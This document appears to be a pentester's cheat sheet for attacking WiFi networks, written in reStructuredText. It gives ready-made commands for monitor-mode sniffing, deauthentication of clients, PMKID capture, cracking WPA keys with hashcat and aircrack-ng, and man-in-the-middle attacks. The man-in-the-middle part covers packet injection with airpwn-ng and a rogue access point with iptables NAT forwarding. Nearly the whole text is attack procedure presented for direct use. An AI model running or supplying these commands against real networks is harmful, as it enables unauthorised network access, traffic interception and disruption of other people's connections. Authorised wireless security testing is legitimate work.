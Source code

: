 ####
Wifi
####

Sniffing
=========

.. code-block:: bash

  airmon-ng start wlp2s0
  airodump-ng -a -c <channel> --essid <ssid> -w mydump wlp2s0mon
  airodump-ng -a -c <channel> --bssid <ap_mac> -w mydump wlp2s0mon

Deauth attack
=============

.. code-block:: bash

  aireplay-ng --deauth 1 -a <ap_mac> -c <client_mac> -h <spoof_src_mac> wlp2s0mon

PMKID attack
============

.. code-block:: bash

  hcxdumptool -o mydump.pcap -i wlp2s0 --enable_status=3
  hcxpcaptool -z test.16800 mydump.pcap

Cracking
========

* hashcat and dictionary attack

.. code-block:: bash

  hcxpcapngtool ~/balle.pcap-01.cap -o test.16800
  hashcat -m 22000 -w 3 test.16800 mydict.txt

* Bruteforce attack

.. code-block:: bash

  hashcat -m 16800 test.16800 -a 3 -w 3 '?l?l?l?l?l?lt!'

* Hybrid wordlist and bruteforce

.. code-block:: bash

  hashcat -m 22000 -w 3 -a 7 -o cracked.txt test.16800 '?d?d?d?d?s' mydict.txt

* Or using aircrack

.. code-block:: bash

  aircrack-ng -w rockyou.txt mydump.pcap

* For possible default password generators
* https://hashcat.net/forum/thread-6170.html

* And to generate a wordlist depending on a homepage

.. code-block:: bash

  cewl -d 4 -m 8 <url> -w wordlist.txt


Automated security check
========================

* wifite is your friend
* but manual checks are still better ;)


Man in the middle
=================

* Use wifiphisher
* Or airpwn-ng with wpa2 support 

.. code-block:: bash

  airtun-ng -a <BSSID> -e <ESSID> -p <PSK> <Monitoring NIC>
  ifconfig at0 up
  python3 ./airpwn-ng -i <Injecting NIC> -m at0 --tun --injection payloads/demo --inj man

* airpwn open network

.. code-block:: bash

  python3 ./airpwn-ng -i <Injecting NIC> -m <Monitoring NIC> --injection payloads/demo
  
* Or airbase-ng open network

.. code-block:: bash

  airbase-ng -a <ap_mac> --essid <ssid> -c <channel> wlp2s0
  echo 1 > /proc/sys/net/ipv4/ip_forward
  dnsmasq
  brctl addbr mitm
  brctl addif mitm at0
  brctl addif mitm <inet_iface>
  ifconfig mitm up
  iptables -F
  iptables -F -t nat
  iptables -P INPUT ACCEPT
  iptables -P OUTPUT ACCEPT
  iptables -P FORWARD ACCEPT
  iptables -t nat -A POSTROUTING -o <inet_iface> -j MASQUERADE
  
